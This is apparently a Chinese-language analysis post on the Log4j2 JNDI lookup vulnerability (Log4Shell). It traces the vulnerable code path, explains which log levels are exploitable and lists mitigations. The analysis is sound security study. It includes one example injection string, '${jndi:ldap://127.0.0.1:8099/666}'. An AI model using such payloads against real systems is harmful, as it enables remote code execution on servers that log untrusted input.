




# 0x01 What Is Log4j2

Apache log4j2是一款用于 Java 日志记录的工具。日志记录主要用来监视代码中变量的变化情况，周期性地记录到文件中供其他应用进行统计分析工作；跟踪代码运行时轨迹，作为日后审计的依据；担当集成开发环境中的调试器的作用，向文件或控制台打印代码的调试信息。其在JAVA生态环境中应用极其广泛,影响巨大。

经典漏洞，来复现一波

漏洞的触发点在于利用`org.apache.logging.log4j.Logger`进行`log`或`error`等记录操作时未对日志message信息进行有效检查,从而导致漏洞发生。

影响版本：`2.0 <= Apache log4j2 <= 2.14.1`

# 0x02 Basic Usage

To use Log4j 2 in your application make sure that both the API and Core jars are in the application's classpath. Add the dependencies listed below to your classpath.

> log4j-api.jar
>
> log4j-core.jar

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>
```

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4Vul {
    private static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        String food = "taco";
        logger.error("{} is not served", food);
        // 12:17:56.859 [main] ERROR Log4Vul - taco is not served
    }
}
```

`{}`起到占位符的作用，被替换为传入的参数

`log4j`提供了一些`lookup`功能，可以快速打印环境变量、java版本信息、日志事件、运行容器信息等内容

如`logger.error("Java version :{}","${java:version}");`将打印java版本

具体可以查看[官方文档]([Log4j – Log4j 2 Lookups (apache.org)](https://logging.apache.org/log4j/2.x/manual/lookups.html))

可以看到有敏感的`JndiLookup `，通过jndi来获取变量值

在`log4j.core.lookup`可以找到这个类

```java
public String lookup(final LogEvent event, final String key) {
    if (key == null) {
        return null;
    }
    final String jndiName = convertJndiName(key);
    try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {
        return Objects.toString(jndiManager.lookup(jndiName), null);
    } // ....
}
```

`jndiManager#lookup`有熟悉的`this.context.lookup(name);`，`context`默认为`InitialContext`

接着看看`log4j`是怎么处理我们传入的message并转化为jndi的

`MessagePatternConverter#format`

* 判断是否设置`noLookups`（后面讲防御就是把这个参数设为true）
* 判断是否有`${`
* 传入`StrSubstitutor`进行`replace`



把`${xxx}`中间的内容提取出来，传入`resolveVariable`处理，在`Interpolator#lookup`，把第一个`:`前的内容提取出来，这里就是`jndi`，在`strLookupMap`找到对应的`Lookup`类，即找到`JndiLookup`类，用这个类去`lookup`后面的部分



上面是使用`logger.error()`触发的，日志等级默认200。

一般情况下，如`logger.log(Level.INFO, "${jndi:ldap://127.0.0.1:8099/666}");`

会经过`logIfEnabled()`的判断



如果日志等级的值没有小于200（值越小等级越高），就不会进入`logMessage`来打印消息



所以只有`OFF(0)、FATAL(100)、ERROR(200)`才能利用

代码中日志等级的优先级≥默认级别才可以成功，比如Struts2的默认日志等级为Info(400)，WARN(300)、ERROR、FATAL、OFF、INFO这几个级别的日志都可能被利用


# 0x03 Defend

* 升级到`2.17.0`版本以上
* 设置`jvm`参数：`-Dlog4j2.formatMsgNoLookups=true`
* 设置环境变量：`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS=true`


# 0x04 Reference

* [Log4j漏洞详解 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/327379.html)
* [Apache Log4j2 远程代码执行漏洞分析-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/262668)
* [Apache Log4j2 Jndi RCE 高危漏洞分析与防御 (seebug.org)](https://paper.seebug.org/1787/)